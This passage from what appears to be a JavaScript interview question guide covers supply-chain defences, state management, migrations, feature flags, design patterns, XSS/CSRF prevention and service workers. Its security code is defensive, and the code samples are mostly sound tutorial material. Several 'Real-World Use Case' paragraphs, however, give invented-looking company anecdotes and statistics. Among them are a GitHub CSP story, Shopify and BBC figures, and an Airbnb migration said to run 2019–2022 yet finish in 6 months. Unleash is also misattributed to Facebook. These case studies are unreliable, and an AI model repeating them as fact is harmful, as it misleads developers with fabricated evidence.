GitHub\'s 2023 security incident involved a stolen OAuth token from a CI provider (CircleCI) accessing private repositories. GitHub\'s response included publishing their full CSP configuration (nonce-based `strict-dynamic`) and enabling mandatory Subresource Integrity for all external scripts. Their CSP report endpoint recorded ~20,000 attempted XSS injections per day that were silently blocked — none resulted in account compromise because the browser refused to execute injected scripts without the matching server-generated nonce. This is the definitive proof that CSP is not optional for any application handling user data.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you defend against supply chain attacks in a JavaScript ecosystem?

Supply chain attacks target dependencies, build tools, and CDN resources rather than your application code directly. The `event-stream` incident (2018), `ua-parser-js` hijack (2021), and `node-ipc` protest-ware (2022) demonstrated that even well-maintained packages can be compromised.

```js
// ── Defense layer 1: Minimal dependency footprint ───────────────────────────────
// Before adding ANY dependency, ask:
// 1. Can this be implemented in < 20 lines of code? (is-odd, is-even packages)
// 2. What is the maintenance status? (last commit, # of maintainers)
// 3. How many transitive dependencies does it add? (bundlephobia.com)
// 4. Does it require network access or filesystem access at runtime?

// ── Defense layer 2: package-lock.json integrity + reproducible builds ───────
// Use `npm ci` in CI, NEVER `npm install`
// npm ci: installs EXACTLY what is in package-lock.json, fails if mismatch
// npm install: may update patch versions, bypassing your lock file

// ── Defense layer 3: npm audit in CI pipeline ─────────────────────────────
// .github/workflows/security.yml
jobs:
  audit:
    steps:
      - run: npm ci
      - run: npm audit --audit-level=moderate
        # Or use Socket.dev for deeper analysis than npm audit
      - run: npx better-npm-audit audit --level=moderate

// ── Defense layer 4: runtime integrity for CDN resources (SRI) ─────────────
// Generate hash: openssl dgst -sha384 -binary lodash.min.js | openssl base64 -A
// <script
//   src="https://cdn.jsdelivr.net/npm/lodash@4.17.21/lodash.min.js"
//   integrity="sha384-T1L9yn2PEzvwBUHDOo1K/PZBWMS3i4vMUFhEIEClN2ZBFzFivS0Jx+kWmXKnJun"
//   crossorigin="anonymous">
// </script>
// If the CDN file is modified, the hash won\'t match and browser won\'t execute it

// ── Defense layer 5: private registry proxying ──────────────────────────────
// All npm installs go through your private registry (Artifactory/Verdaccio)
// which caches approved versions and scans for vulnerabilities before caching
// .npmrc
// registry=https://artifactory.company.com/npm/
```

**Real-World Use Case:**

Socket.dev (founded by Feross Aboukhadijeh, creator of many popular npm packages) performs deep static analysis of npm packages to detect supply chain attacks: looking for obfuscated code, dynamic `require()` calls added in new versions, network access in `install` scripts, and packages that suddenly changed maintainers. Companies including Shopify, Microsoft, and Vercel use Socket in their CI pipelines as a second line of defence after `npm audit`, which only catches known CVEs — not novel attack patterns.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 40. State Management at Scale

<br>

## Q. How do you choose a state management strategy for a large distributed frontend team?

The most common mistake in state management at scale is using a single solution for all state. The key architectural insight is that **server state** (data fetched from an API that can change on the server) and **client state** (UI state local to the browser) have fundamentally different characteristics and require different tools.

**State taxonomy:**

| State type | Examples | Best tool |
|---|---|---|
| Server/remote state | User profile, product list, orders | React Query / SWR / RTK Query |
| Global client state | Auth user, theme, feature flags, cart | Zustand / Redux Toolkit |
| Complex local UI state | Multi-step wizard, form with many transitions | useReducer / XState |
| Simple local state | Modal open/closed, input value | useState |
| URL state | Filters, pagination, current tab | URL search params (React Router) |
| Form state | Field values, validation errors | React Hook Form / Formik |

```js
// ── Layer 1: Server state with React Query (TanStack Query) ────────────────────
import { useQuery, useMutation, useQueryClient } from '@tanstack/react-query';

// Automatic caching, background refetching, deduplication, stale-while-revalidate
function useUserProfile(userId) {
  return useQuery({
    queryKey: ['user', userId],
    queryFn:  () => apiRequest(`/users/${userId}`),
    staleTime:     5 * 60 * 1000,   // data is fresh for 5 minutes
    gcTime:        10 * 60 * 1000,  // keep in cache for 10 minutes after unmount
    retry:         2,
    refetchOnWindowFocus: true,     // background sync when user returns to tab
  });
}

function useUpdateUser() {
  const queryClient = useQueryClient();
  return useMutation({
    mutationFn: (data) => apiRequest(`/users/${data.id}`, { method: 'PUT', body: JSON.stringify(data) }),
    // Optimistic update
    onMutate: async (newData) => {
      await queryClient.cancelQueries({ queryKey: ['user', newData.id] });
      const previous = queryClient.getQueryData(['user', newData.id]);
      queryClient.setQueryData(['user', newData.id], newData);  // optimistic
      return { previous };  // context for rollback
    },
    onError: (err, newData, context) => {
      queryClient.setQueryData(['user', newData.id], context.previous);  // rollback
    },
    onSettled: (data, err, newData) => {
      queryClient.invalidateQueries({ queryKey: ['user', newData.id] });  // refetch
    },
  });
}

// ── Layer 2: Global client state with Zustand ─────────────────────────────────
import { create } from 'zustand';
import { devtools, persist } from 'zustand/middleware';

const useAuthStore = create(
  devtools(
    persist(
      (set, get) => ({
        user:  null,
        token: null,
        login:  (user, token) => set({ user, token }, false, 'auth/login'),
        logout: ()           => set({ user: null, token: null }, false, 'auth/logout'),
        isAuthenticated: () => Boolean(get().token),
      }),
      { name: 'auth-store' }  // persisted to localStorage
    )
  )
);

// ✔ No Provider boilerplate (unlike Context + useReducer)
// ✔ DevTools support (action names visible in Redux DevTools)
// ✔ Fine-grained subscriptions (components only re-render for selected slice)

// ── Layer 3: Complex UI state with XState ───────────────────────────────────
import { createMachine, assign } from 'xstate';

const checkoutMachine = createMachine({
  id: 'checkout',
  initial: 'cart',
  states: {
    cart:     { on: { PROCEED: 'shipping' } },
    shipping: { on: { NEXT: 'payment', BACK: 'cart' } },
    payment:  {
      on: {
        SUBMIT:  'processing',
        BACK:    'shipping',
      }
    },
    processing: {
      invoke: {
        src: 'submitPayment',
        onDone:  { target: 'success' },
        onError: { target: 'payment', actions: assign({ error: (_, e) => e.data }) },
      }
    },
    success: { type: 'final' },
  },
});
// XState makes impossible states impossible — the machine cannot be
// simultaneously in 'processing' and 'cart'. No boolean flag soup.
```

**Real-World Use Case:**

Shopify\'s Storefront builder team (used to create custom storefronts) migrated from Redux to a hybrid React Query + Zustand architecture in 2022. The key insight was that 80% of their Redux store was server data that Redux treated as client state — requiring manual invalidation, loading state management, and error state that React Query handles automatically. After migration, they deleted 40% of their state management code and reduced bug reports related to stale data by 70%. Zustand replaced Redux for the remaining 20% of genuinely global client state (auth, theme, cart), with 90% less boilerplate than Redux Toolkit.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you manage state in a micro-frontend architecture where multiple teams own different parts of the UI?

Micro-frontend state management requires clear ownership boundaries. The golden rule: **each MFE owns its own state; shared state is minimal and contract-defined**.

```js
// ── State ownership model ──────────────────────────────────────────────────────────
// ✔ Shell owns: auth token, user profile, theme, global feature flags
// ✔ Catalog MFE owns: search state, filter state, product list pagination
// ✔ Cart MFE owns: cart items, promo codes, quantity state
// ✔ Checkout MFE owns: checkout wizard step, payment form state

// Cross-MFE communication: only for events that cross team boundaries
// (e.g., user adds to cart from catalog — catalog emits, cart listens)

// Approach 1: Custom events (decoupled, no shared library required)
// Catalog MFE:
document.dispatchEvent(new CustomEvent('mfe:cart:add', {
  detail: { sku: 'SHOE-123', qty: 1, price: 99.99 },
  bubbles: true,
}));

// Cart MFE:
document.addEventListener('mfe:cart:add', ({ detail }) => {
  cartStore.addItem(detail);
});

// Approach 2: Shared store singleton (Module Federation shared config)
// @company/cart-store in webpack shared config with singleton:true
// Both Catalog and Cart MFE import the SAME store instance
import { useCartStore } from '@company/cart-store';

// ── Normalised state shape for large data collections ───────────────────────────
// ❌ Denormalised: redundant data, hard to update consistently
const state = {
  orders: [
    { id: '1', user: { id: 'u1', name: 'Alice', email: 'alice@example.com' }, items: [...] },
    { id: '2', user: { id: 'u1', name: 'Alice', email: 'alice@example.com' }, items: [...] },
    // Alice\'s name stored N times — update one, miss others
  ]
};

// ✅ Normalised: single source of truth per entity (like a database)
const state = {
  users:  { 'u1': { id: 'u1', name: 'Alice', email: 'alice@example.com' } },
  orders: {
    '1': { id: '1', userId: 'u1', itemIds: ['i1', 'i2'] },
    '2': { id: '2', userId: 'u1', itemIds: ['i3'] },
  },
  orderIds: ['1', '2'],  // for ordering
};
// Redux Toolkit\'s createEntityAdapter() generates this structure automatically
```

**Real-World Use Case:**

The BBC News website uses a micro-frontend architecture where the Header team, the Article team, and the Sports team own separate bundles. Their state sharing contract is documented in an ADR (Architecture Decision Record): only `userId`, `sessionToken`, `locale`, and `darkMode` are shared through the shell — everything else is MFE-private. This contract is enforced via TypeScript types published to their internal registry and validated at the shell boundary. When the Article team tried to read cart state (owned by a different team), the TypeScript compilation failed — preventing an accidental cross-team dependency before it reached production.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 41. Migration & Evolution

<br>

## Q. How do you migrate a large legacy JavaScript application to a modern stack without disrupting production?

Large-scale frontend migrations (Angular → React, jQuery monolith → SPA, plain JS → TypeScript) fail when attempted as big-bang rewrites. The proven strategy is the **Strangler Fig pattern**: route-by-route, feature-by-feature, with the legacy and modern codebases running in parallel until the legacy is fully strangled.

**Strangler Fig for frontend migration:**

```js
// ── Phase 1: Route-level code splitting — new code, new route ──────────────────
// The shell router decides whether to render the legacy or modern implementation
// Nginx / CDN: route /new/* to new SPA, /legacy/* to old jQuery app

// Or within a single app:
const routes = [
  // New React implementation — migrated routes
  { path: '/dashboard',   component: React.lazy(() => import('./new/Dashboard')) },
  { path: '/profile',     component: React.lazy(() => import('./new/Profile')) },
  // Legacy implementation — still running, not yet migrated
  { path: '/reports',     component: LegacyReportsWrapper },   // wraps jQuery module
  { path: '/admin',       component: LegacyAdminWrapper },
];

// ── Wrapping legacy jQuery in a React component ───────────────────────────────
function LegacyReportsWrapper({ filter }) {
  const containerRef = React.useRef(null);

  React.useEffect(() => {
    // Mount the legacy module into the DOM node
    const instance = window.LegacyReports.init(containerRef.current, { filter });
    return () => instance.destroy();  // cleanup on unmount
  }, []);

  React.useEffect(() => {
    // Forward prop changes to legacy module via its API
    window.LegacyReports.setFilter(filter);
  }, [filter]);

  return <div ref={containerRef} id="legacy-reports-mount" />;
}

// ── Progressive TypeScript adoption ──────────────────────────────────────────
// Phase 1: allowJs + checkJs — type-check JS files without renaming them
// tsconfig.json
{
  "compilerOptions": {
    "allowJs": true,         // include .js files in compilation
    "checkJs": true,         // type-check .js files with JSDoc types
    "strict": false,         // not yet — would break everything
    "strictNullChecks": true // enable incrementally
  }
}

// Phase 2: JSDoc types in JS files (zero friction, works with editor IntelliSense)
/**
 * @param {string} userId
 * @returns {Promise<import('./types').User>}
 */
async function fetchUser(userId) { /* ... */ }

// Phase 3: Rename .js → .ts file-by-file (start with utility files, not UI)
// Use ts-migrate for automated initial conversion:
// npx @airbnb/ts-migrate migrate --dir src/utils

// Phase 4: Enable strict mode per-file (ambient declaration)
// @ts-strict (per-file strict mode — experimental, TypeScript 5.5+)
// OR gradually enable strictNullChecks, noImplicitAny in tsconfig

// ── Automated refactoring with codemods (jscodeshift) ─────────────────────────
// Transform all `var` to `const`/`let` across 10,000 files
// npx jscodeshift -t codemod-var-to-const.js src/

// codemod-var-to-const.js
module.exports = function transformer(file, api) {
  const j = api.jscodeshift;
  return j(file.source)
    .find(j.VariableDeclaration, { kind: 'var' })
    .replaceWith(path => {
      // Use 'const' unless reassigned, else 'let'
      const isReassigned = /* check for assignment expressions */ false;
      return j.variableDeclaration(
        isReassigned ? 'let' : 'const',
        path.node.declarations
      );
    })
    .toSource();
};
```

**Migration success criteria — track these metrics:**

| Metric | Before | Target |
|---|---|---|
| TypeScript coverage (% .ts files) | 0% | 100% |
| Strict mode compliance | 0% | 100% |
| Legacy bundle size | 1.2 MB | < 300 KB |
| Legacy route count | 47 routes | 0 routes |
| Test coverage | 12% | > 80% |

**Real-World Use Case:**

Airbnb\'s migration of their ~1 million line JavaScript codebase to TypeScript (2019–2022) is the most documented large-scale JS → TS migration. Their strategy: use `ts-migrate` (open-sourced) to automatically convert files — adding `// @ts-expect-error` suppressions for every type error — then track "suppression debt" as a metric and require all new code to be fully typed. They migrated all 1 million lines in 6 months without stopping feature development, by treating migration as a background track rather than a separate project. Their open-sourced `ts-migrate` tool has since been used by Stripe, Shopify, and dozens of other companies.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you implement feature flags for gradual rollouts and safe migrations?

Feature flags (feature toggles) decouple deployment from release, enabling teams to merge code daily without exposing unfinished features, run A/B tests, and roll back without code deploys.

```js
// ── Feature flag service (wrapping LaunchDarkly / Unleash / custom) ───────────
// flags.ts — single source of truth for all flags
export const Flags = {
  NEW_CHECKOUT:      'new-checkout-flow',
  REACT_MIGRATION:   'react-migration-dashboard',
  TYPESCRIPT_STRICT: 'ts-strict-mode',
} as const;

type FlagKey = typeof Flags[keyof typeof Flags];

// ── React hook integration ──────────────────────────────────────────────────────────
function useFlag(flagKey: FlagKey): boolean {
  // LaunchDarkly SDK variation call
  return ldClient.variation(flagKey, /* defaultValue */ false);
}

// Usage — Strangler Fig at the component level
function CheckoutPage() {
  const useNewCheckout = useFlag(Flags.NEW_CHECKOUT);

  return useNewCheckout
    ? <NewCheckoutFlow />   // new implementation (gradually rolled out)
    : <LegacyCheckout />;  // old implementation (100% fallback)
}

// ── Gradual rollout strategy ──────────────────────────────────────────────────────
// Week 1: Enable for internal employees only (targetUsers: ['@company.com'])
// Week 2: Canary — 1% of users
// Week 3: Ramp — 10%, 25%, 50%
// Week 4: 100% — then clean up the flag and remove legacy code

// ── Flag hygiene — prevent flag debt ─────────────────────────────────────────────
// Every flag must have:
// 1. An owner (team)
// 2. An expiry date (default: 2 weeks from creation)
// 3. A Jira ticket for cleanup
// ESLint rule: @company/no-stale-feature-flags
// — flags older than 30 days that are at 100% rollout trigger a lint error
// forcing the team to remove the legacy branch
```

**Real-World Use Case:**

Facebook\'s Gatekeeper system (now Meta) manages over 10,000 active feature flags simultaneously. Every new feature at Facebook ships behind a flag — code reaches 100% of servers within hours of merge, but only activates for the percentage of users specified in Gatekeeper. This enabled Facebook to deploy code 2× per day while maintaining the ability to kill any feature in under 30 seconds without a deployment. Their open-source equivalent, `unleash`, is used by enterprises including Telenor and Red Hat for the same pattern.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 42. MISCELLANEOUS

<br>

## Q. Describe the Revealing Module Pattern in javascript?

Revealing module pattern is a design pattern, which let you organise your javascript code in modules, and gives better code structure. It gives you power to create public/private variables/methods (using closure), and avoids polluting global scope

It uses IIFE (Immediately invoked function expression: (function(){})();) to wrap your module function, thus creating a local scope for all your variables and methods.

**Syntax:**

```js
const returnedValue = (function() { ... })();
```

**Example:**

```js
const myModule = (function () {
  "use strict";

  var _privateProperty = "I am a private property";
  var publicProperty = "I am a public property";

  function _privateMethod() {
    console.log(_privateProperty);
  }

  function publicMethod() {
    _privateMethod();
  }

  return {
    publicMethod: publicMethod,
    publicProperty: publicProperty
  };
})();

myModule.publicMethod(); // outputs 'I am a private property'
console.log(myModule.publicProperty); // outputs 'I am a public property'
console.log(myModule._privateProperty); // is undefined protected by the module closure
myModule._privateMethod(); // TypeError: protected by the module closure
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-iterator-sh0tvo?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are XSS and CSRF attacks, and how do you prevent them in JavaScript?

**XSS (Cross-Site Scripting):**

XSS is an injection attack where an attacker injects malicious scripts into content that is served to other users. The injected script executes in the victim\'s browser with the same privileges as the trusted site.

**Types of XSS:**

| Type | Description |
|------|-------------|
| Stored XSS | Malicious script is persisted in the database and served to every user |
| Reflected XSS | Script is included in the request and immediately reflected back in the response |
| DOM-based XSS | Vulnerability exists entirely in the client-side code |

**Prevention:**

```js
// ❌ Dangerous — directly inserting user input into DOM
element.innerHTML = userInput;
document.write(userInput);

// ✅ Safe — use textContent which does NOT parse HTML
element.textContent = userInput;

// ✅ Sanitize with a trusted library (DOMPurify)
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);

// ✅ Set Content-Security-Policy header (server-side)
// Content-Security-Policy: default-src 'self'; script-src 'self'

// ✅ Use HttpOnly cookies — prevents JS from reading sensitive cookies
// Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict

// ✅ Encode user data before rendering in HTML contexts
function escapeHtml(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#039;');
}
```

**CSRF (Cross-Site Request Forgery):**

CSRF tricks an authenticated user\'s browser into making an unwanted request to a server (e.g., transferring money, changing email) using the user\'s existing session cookies.

**Example attack:**

```html
<!-- Attacker\'s page -->

<!-- Browser automatically sends the victim\'s cookies with this request -->
```

**Prevention:**

```js
// ✅ 1. CSRF Token — include a secret token in every state-changing request
// Server generates a unique token per session and validates it on each request

fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRF-Token': document.querySelector('meta[name="csrf-token"]').content
  },
  body: JSON.stringify({ to: 'friend', amount: 100 })
});

// ✅ 2. SameSite Cookie attribute — prevents cookies from being sent cross-origin
// Set-Cookie: session=abc; SameSite=Strict; Secure

// ✅ 3. Check the Origin/Referer header on the server

// ✅ 4. Use custom request headers — simple AJAX requests don\'t send custom headers
//    so requiring a custom header (X-Requested-With) blocks simple cross-site forms
```

**Summary:**

| Attack | Exploits | Key Defense |
|--------|---------|-------------|
| XSS | Trusting user input in DOM | Sanitize output, CSP, `textContent` |
| CSRF | Trusting browser cookies automatically | CSRF tokens, `SameSite=Strict` cookies |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you detect javascript disabled in the page?

You can use `<noscript>` tag to detect javascript disabled or not. The code block inside `<noscript>` get executed when JavaScript is disabled, and are typically used to display alternative content when the page generated in JavaScript.

```html
<script type="javascript">
    // JS related code goes here
</script>
<noscript>
    <a href="next_page.html?noJS=true">JavaScript is disabled in the apge. Please click Next Page</a>
</noscript>
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is strict mode?

The Strict Mode is allows you to place a program, or a function, in a `strict` operating context. This strict context prevents certain actions from being taken and throws more exceptions.

**Example:**

```js
(function(){
"use strict";

// Define your library strictly...
})();
```

**Advantages:**

* Makes it impossible to accidentally create global variables.
* Makes assignments which would otherwise silently fail to throw an exception.
* Makes attempts to delete undeletable properties throw (where before the attempt would simply have no effect).
* Requires that function parameter names be unique.
* `this` is undefined in the global context.
* It catches some common coding bloopers, throwing exceptions.
* It disables features that are confusing or poorly thought out.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you implement an LRU Cache in JavaScript?

An **LRU (Least Recently Used) Cache** evicts the least recently accessed item when the cache reaches its capacity. The optimal implementation uses a `Map` (which maintains insertion order) to achieve O(1) get and put operations.

**Implementation using `Map`:**

```js
class LRUCache {
  constructor(capacity) {
    this.capacity = capacity;
    this.cache = new Map(); // Map preserves insertion order
  }

  get(key) {
    if (!this.cache.has(key)) return -1;

    // Move to end to mark as recently used
    const value = this.cache.get(key);
    this.cache.delete(key);
    this.cache.set(key, value);
    return value;
  }

  put(key, value) {
    if (this.cache.has(key)) {
      this.cache.delete(key); // remove old entry
    } else if (this.cache.size >= this.capacity) {
      // Evict the least recently used (first item in Map)
      const lruKey = this.cache.keys().next().value;
      this.cache.delete(lruKey);
    }
    this.cache.set(key, value);
  }
}

// Usage
const cache = new LRUCache(3);
cache.put(1, 'A'); // {1:'A'}
cache.put(2, 'B'); // {1:'A', 2:'B'}
cache.put(3, 'C'); // {1:'A', 2:'B', 3:'C'}
cache.get(1);      // 'A' — 1 is now most recent: {2:'B', 3:'C', 1:'A'}
cache.put(4, 'D'); // capacity exceeded, evict 2: {3:'C', 1:'A', 4:'D'}
console.log(cache.get(2)); // -1 (evicted)
console.log(cache.get(3)); // 'C'
```

**Why `Map` works:**

* `Map` remembers insertion order, so the first key returned by `map.keys()` is always the **oldest** (LRU) entry.
* All operations — `has`, `get`, `set`, `delete` — are O(1) on average.

**Time & Space Complexity:**

| Operation | Complexity |
|-----------|-----------|
| `get` | O(1) |
| `put` | O(1) |
| Space | O(capacity) |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is dependency injection in JavaScript?

**Dependency Injection (DI)** is a design pattern where an object\'s dependencies are provided externally rather than created inside the object. This promotes loose coupling, testability, and adherence to the Single Responsibility Principle.

**Without dependency injection (tightly coupled):**

```js
// Bad — UserService creates its own logger
class UserService {
  constructor() {
    this.logger = new ConsoleLogger(); // hard dependency
  }
  createUser(name) {
    this.logger.log(`Creating user: ${name}`);
  }
}
```

**With dependency injection:**

```js
// Good — logger is injected, making it easy to swap in tests
class UserService {
  constructor(logger, userRepository) {
    this.logger = logger;
    this.userRepository = userRepository;
  }

  async createUser(name) {
    this.logger.log(`Creating user: ${name}`);
    return this.userRepository.save({ name });
  }
}

// Production
const service = new UserService(new ConsoleLogger(), new DatabaseRepository());

// Tests — inject mocks
const mockLogger = { log: jest.fn() };
const mockRepo   = { save: jest.fn().mockResolvedValue({ id: 1 }) };
const testService = new UserService(mockLogger, mockRepo);
```

**DI via function arguments (functional style):**

```js
function createOrderProcessor(paymentGateway, inventoryService, notifier) {
  return async function processOrder(order) {
    await inventoryService.reserve(order.items);
    await paymentGateway.charge(order.total);
    await notifier.send(order.userId, 'Order confirmed!');
  };
}

const processOrder = createOrderProcessor(
  new StripeGateway(),
  new InventoryService(),
  new EmailNotifier()
);
```

**Benefits:**

* Easier unit testing — inject mocks/stubs
* Loose coupling — swap implementations without changing consuming code
* Explicit dependencies — easier to understand what a class needs
* Single Responsibility — classes focus on logic, not construction

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are MVC and MVVM patterns in JavaScript?

**MVC (Model-View-Controller):**

MVC separates an application into three components:

* **Model** — manages data and business logic
* **View** — renders the UI based on model data
* **Controller** — handles user input, updates model and view

```js
// Model
class UserModel {
  constructor(name, email) {
    this.name = name;
    this.email = email;
  }
  validate() {
    return this.email.includes('@');
  }
}

// View
class UserView {
  render(user) {
    document.getElementById('name').textContent = user.name;
    document.getElementById('email').textContent = user.email;
  }
  getFormData() {
    return {
      name: document.getElementById('nameInput').value,
      email: document.getElementById('emailInput').value
    };
  }
}

// Controller
class UserController {
  constructor(model, view) {
    this.model = model;
    this.view = view;
    document.getElementById('submit').addEventListener('click', () => this.handleSubmit());
  }
  handleSubmit() {
    const data = this.view.getFormData();
    const model = new UserModel(data.name, data.email);
    if (model.validate()) {
      this.view.render(model);
    }
  }
}

const controller = new UserController(null, new UserView());
```

**MVVM (Model-View-ViewModel):**

MVVM replaces the controller with a **ViewModel** that exposes data bindings, enabling **two-way data binding** between View and ViewModel. Used in frameworks like Angular (two-way binding), Vue.js, and Knockout.

```js
// Vue.js demonstrates MVVM — ViewModel is the Vue instance
const vm = new Vue({
  el: '#app',
  data: {           // Model
    message: 'Hello'
  }
  // The template (View) binds to `message` automatically
  // Any change to vm.message immediately updates the DOM
});
```

**Comparison:**

| | MVC | MVVM |
|--|-----|------|
| Data flow | Controller mediates | Two-way data binding |
| View knowledge | View knows controller | View knows ViewModel (via binding) |
| Testability | Controller is testable | ViewModel is testable without UI |
| Used by | Express, Angular 1 | Vue.js, Angular, React (+hooks) |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Describe Singleton Pattern In JavaScript?

The **singleton pattern** is a type of creational pattern that restricts the instantiation of a class to a **single** object. This allows the class to create an instance of the class the first time it is instantiated; however, on the next try, the existing instance of the class is returned. No new instance is created.

<p align="center">
  
</p>

**Example:**

```js
/**
 * Singleton Pattern
 **/

let instance = null;

class Printer {

  constructor(pages) {
    this.display = function () {
      console.log(
        `You are connected to the printer. You want to print ${pages} pages.`
      );
    };
  }

  static getInstance(numOfpages) {
    if (!instance) {
      instance = new Printer(numOfpages);
    }
    return instance;
  }
}

var obj1 = Printer.getInstance(2);
console.log(obj1);
obj1.display();

var obj2 = Printer.getInstance(3);
console.log(obj2);
obj2.display();

console.log(obj2 === obj1); // true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-singleton-pattern-3cvgkr?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain browser console logs features?

The `Console` method **log()** outputs a message to the web console. The message may be a single string or it may be any one or more JavaScript objects.

**1. console.table()**

```js
const artists = [
  {
    first: 'René',
    last: 'Magritte'
  },
  {
    first: 'Chaim',
    last: 'Soutine'
  },
  {
    first: 'Henri',
    last: 'Matisse'
  }
];
console.table(artists);
```
Output



**2. console.log()**



**3. console.warn()**



**4. console.error()**



<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the difference between console.log() and console.dir()?

* `console.log()` prints the element in an HTML-like tree
Output



* `console.dir()` prints the element in a JSON-like tree
Output



<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to Copy Text to Clipboard?

```html
<!-- The text field -->
<input type="text" id="inputText" value="Hello World">

<!-- The button used to copy the text -->
<button onclick="copy()">Copy text</button>
```

```js
function copy() {
  /* Get the text field */
  let copyText = document.getElementById("inputText");

  /* Select the text field */
  copyText.select();
  copyText.setSelectionRange(0, 99999); /*For mobile devices*/

  /* Copy the text inside the text field */
  document.execCommand("copy");

  /* Alert the copied text */
  alert("Copied the text: " + copyText.value);
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a service worker?

A Service worker is basically a JavaScript file that runs in background, separate from a web page and provide features that don\'t need a web page or user interaction. 

Some of the major features of service workers are 
* Offline first web application development
* Periodic background syncs, push notifications
* Intercept and handle network requests
* Programmatically managing a cache of responses

**Lifecycle of a Service Worker**

It consists of the following phases:
* Download
* Installation
* Activation

**Registering a Service Worker**

To register a service worker we first check if the browser supports it and then register it.

```js
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/ServiceWorker.js')
  .then(function(response) {

    // Service worker registration done
    console.log('Registration Successful', response);
  }, function(error) {
    // Service worker registration failed
    console.log('Registration Failed', error);
  }
```

**Installation of service worker:**

After the controlled page that takes care of the registration process, we come to the service worker script that handles the installation part.

Basically, you will need to define a callback for the install event and then decide on the files that you wish to cache. Inside a callback, one needs to take of the following three points –

* Open a cache
* Cache the files
* Seek confirmation for the required caches and whether they have been successful.

```js
var CACHENAME = 'My site cache'; 
var urlstocache = [ 
	'/', 
  '/styles/main1.css', 
	'/script/main1.js' 
]; 
self.addEventListener('install', function(event) { 
	// Performing installation steps 
	event.waitUntil( 
		caches.open(CACHENAME) 
		.then(function(cache) { 
			console.log('Opening of cache'); 
			return cache.addAll(urlstocache);
		}) 
);
```

**Cache and return requests:**

After a service worker is installed and the user navigates to a different page or refreshes, the service worker will begin to receive fetch events, an example of which is below.

```js
self.addEventListener('fetch', function(event) {
  event.respondWith(
    caches.match(event.request)
      .then(function(response) {
        // Cache hit - return response
        if (response) {
          return response;
        }
        return fetch(event.request);
      }
    )
  );
});
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you manipulate DOM using service worker?

Service worker can\'t access the DOM directly. But it can communicate with the pages it controls by responding to messages sent via the `postMessage` interface, and those pages can manipulate the DOM.

**Example:** service-worker.html

```html
<!doctype html>
<html>
<head>
<meta charset="UTF-8">
<title>Service Worker</title>
</head>
<body>
(Look in the console.)
<script>
(function() {
    "use strict";

    if (!navigator.serviceWorker || !navigator.serviceWorker.register) {
        console.log("This browser doesn\'t support service workers");
        return;
    }

    // Listen to messages from service workers.
    navigator.serviceWorker.addEventListener('message', function(event) {
        console.log("Got reply from service worker: " + event.data);
    });

    // Are we being controlled?
    if (navigator.serviceWorker.controller) {
        // Yes, send our controller a message.
        console.log("Sending 'hi' to controller");
        navigator.serviceWorker.controller.postMessage("hi");
    } else {
        // No, register a service worker to control pages like us.
        // Note that it won\'t control this instance of this page, it only takes effect
        // for pages in its scope loaded *after* It is installed.
        navigator.serviceWorker.register("service-worker.js")
            .then(function(registration) {
                console.log("Service worker registered, scope: " + registration.scope);
                console.log("Refresh the page to talk to it.");
                // If we want to, we might do `location.reload();` so that we\'d be controlled by it
            })
            .catch(function(error) {
                console.log("Service worker registration failed: " + error.message);
            });
    }
})();
</script>
</body>
</html>
```

**service-worker.js** 

```js
self.addEventListener("message", function(event) {
    //event.source.postMessage("Responding to " + event.data);
    self.clients.matchAll().then(all => all.forEach(client => {
        client.postMessage("Responding to " + event.data);
    }));
});
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to use Web Workers in javascript?

**Step 01: Create a Web Workers file**: Write a script to increment the count value.

```js
// counter.js
let i = 0;

function timedCount() {
  i = i + 1;
  postMessage(i);
  setTimeout("timedCount()",500);
}

timedCount();
```

Here `postMessage()` method is used to post a message back to the HTML page.  

**Step 02: Create a Web Worker Object**: Create a web worker object by checking for browser support.

```js
if (typeof(w) == "undefined") {
  w = new Worker("counter.js");
}
```

and we can receive messages from web workers

```js
w.onmessage = function(event){
  document.getElementById("message").innerHTML = event.data;
};
```

**Step 03: Terminate a Web Workers**: Web workers will continue to listen for messages (even after the external script is finished) until it is terminated. You can use terminate() method to terminate listening the messages.

```js
w.terminate();
```

**Step 04: Reuse the Web Workers**: If you set the worker variable to undefined you can reuse the code

```js
w = undefined;
```

**Example:**

```html
<!DOCTYPE html>
<html>
<body>
  <p>Count numbers: <output id="result"></output></p>
  <button onclick="startWorker()">Start</button>
  <button onclick="stopWorker()">Stop</button>
  
  <script>
    var w;

    function startWorker() {
      if (typeof(Worker) !== "undefined") {
